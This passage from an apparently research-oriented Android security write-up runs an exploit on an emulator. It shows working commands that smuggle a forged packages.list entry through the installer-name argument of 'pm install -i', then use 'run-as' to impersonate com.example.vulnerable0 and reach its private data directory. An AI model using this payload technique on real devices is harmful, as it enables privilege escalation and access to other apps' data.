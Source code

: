    We take note of the name of the acquisition; in this case: c144c4e6-290e-4172-97e9-58139749e374. 

### Run the Exploit 

Finally! Let's test this exploit, initially trying to impersonate vulnerable0: 

1. Upload dummyApp to the emulator to be able to use it later. In my case, in a shell on the computer (not the emulator's), we run the following command changing the paths to those corresponding to the testing environment: 

   ```bash 
   $ adb push ~/AndroidStudioProjects/dummyApp/app/release/app-release.apk /data/local/tmp 
   /home/and3s/AndroidStudioProjects/dummyApp/app/release/app-release.apk: 1 file pushed, 0 skipped. 269.2 MB/s (4823022 bytes in 0.017s) 
   $ 
   ``` 
 
   This will place our app in `/data/local/tmp/` inside the emulator. 

2. Let's find out which user was assigned to the com.example.vulnerable0 application: 

   ```bash 
   emulator64_x86_64_arm64:/ $ pm list packages -U | grep com.example.vulnerable0 
   package:com.example.vulnerable0 uid:10147 
   ``` 
 
3. Let's prepare the PAYLOAD that we will pass to `pm` when we install dummyApp and that will inject the **packages.list** file with the _falsified_ entry. In this case, it is advisable to build the PAYLOAD in a text editor and then paste it into the emulator shell. This is what it would look like at the end: 

   ```bash 
   emulator64_x86_64_arm64:/ $ PAYLOAD="@null 
   > com.example.vulnerable0 10147 1 /data/data/com.example.vulnerable0 default:targetSdkVersion=28 none 0 0 1 @null" 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 
   What we have done is created an environment variable called PAYLOAD, built in the way explained above. However, there is a difference here: we are using the original _data_ directory (`/data/data/com.example.vulnerable0`) of the _vulnerable0_ application, and not `/data/user/0`, just for variety, since in the next exploit we will use that directory to impersonate a privileged application. 

4. All that remains is to install any app with `pm` and pass `$PAYLOAD` as an argument to the `-i` option and, as a package, pass `/data/local/tmp/app_release.apk` that contains our *dummyApp*. 

   ```bash 
   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/app-release.apk 
   Success 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 
5. Oops, it didn't complain! Let's see if we can now list the files in the _data_ directory of vulnerable0 using `run-as`: 

   ```bash 
   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 touch /data/data/com.example.vulnerable0/this 
   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 ls -al /data/data/com.example.vulnerable0/
   total 52 
   drwx------ 5 u0_a147 u0_a147 4096 2025-01-09 16:17 . 
   drwxrwx--x 183 system system 12288 2025-01-09 16:13 .. 
   drwxrws--x 2 u0_a147 u0_a147_cache 4096 2025-01-09 15:02 cache 
   drwxrws--x 2 u0_a147 u0_a147_cache 4096 2025-01-09 15:02 code_cache 
   drwxrwx--x 2 u0_a147 u0_a147 4096 2025-01-09 15:02 files 
   -rw-rw-rw- 1 u0_a147 u0_a147 0 2025-01-09 16:17 this 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 